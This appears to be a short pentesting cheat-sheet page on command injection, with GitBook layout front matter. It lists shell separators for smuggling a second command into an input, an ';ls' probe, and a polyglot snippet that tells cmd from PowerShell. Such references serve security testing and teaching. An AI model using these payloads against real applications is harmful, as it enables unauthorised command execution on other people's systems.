 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Command Injection

```bash
$(<Command>)
&& <Command>
& <Command>
| <Command>
;ls # URL ENCODE ';'

# A Snippet to know if the injection is running cmd or powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
